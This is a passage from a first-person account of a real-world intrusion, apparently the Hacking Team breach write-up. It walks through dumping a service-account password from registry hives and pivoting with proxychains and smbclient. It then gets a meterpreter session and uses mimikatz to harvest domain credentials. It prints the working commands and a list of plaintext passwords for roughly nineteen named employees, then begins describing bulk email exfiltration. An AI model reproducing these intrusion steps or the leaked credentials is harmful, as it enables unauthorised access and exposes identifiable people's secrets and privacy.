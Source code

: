What interested me most in the backup was seeing if it had a password or hash
that could be used to access the live server. I used pwdump, cachedump, and
lsadump [1] on the registry hives. lsadump found the password to the besadmin
service account:

_SC_BlackBerry MDS Connection Service
0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........

I used proxychains [2] with the socks server on the embedded device and
smbclient [3] to check the password:
proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!'

It worked! The password for besadmin was still valid, and a local admin. I
used my proxy and metasploit's psexec_psh [4] to get a meterpreter session.
Then I migrated to a 64 bit process, ran "load kiwi" [5], "creds_wdigest", and
got a bunch of passwords, including the Domain Admin:

HACKINGTEAM  BESAdmin       bes32678!!!
HACKINGTEAM  Administrator  uu8dd8ndd12!
HACKINGTEAM  c.pozzi        P4ssword      <---- lol great sysadmin
HACKINGTEAM  m.romeo        ioLK/(90
HACKINGTEAM  l.guerra       4luc@=.=
HACKINGTEAM  d.martinez     W4tudul3sp
HACKINGTEAM  g.russo        GCBr0s0705!
HACKINGTEAM  a.scarafile    Cd4432996111
HACKINGTEAM  r.viscardi     Ht2015!
HACKINGTEAM  a.mino         A!e$$andra
HACKINGTEAM  m.bettini      Ettore&Bella0314
HACKINGTEAM  m.luppi        Blackou7
HACKINGTEAM  s.gallucci     1S9i8m4o!
HACKINGTEAM  d.milan        set!dob66
HACKINGTEAM  w.furlan       Blu3.B3rry!
HACKINGTEAM  d.romualdi     Rd13136f@#
HACKINGTEAM  l.invernizzi   L0r3nz0123!
HACKINGTEAM  e.ciceri       2O2571&2E
HACKINGTEAM  e.rabe         erab@4HT!

[1] https://github.com/Neohapsis/creddump7
[2] http://proxychains.sourceforge.net/
[3] https://www.samba.org/
[4] http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf
[5] https://github.com/gentilkiwi/mimikatz


--[ 11 - Downloading the mail ]-------------------------------------------------

With the Domain Admin password, I have access to the email, the heart of the
company. Since with each step I take there's a chance of being detected, I
start downloading their email before continuing to explore. Powershell makes
it easy [1]. Curiously, I found a bug with Powershell's date handling. After
downloading the emails, it took me another couple weeks to get access to the
source code and everything else, so I returned every now and then to download
the new emails. The server was Italian, with dates in the format
day/month/year. I used:
-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}
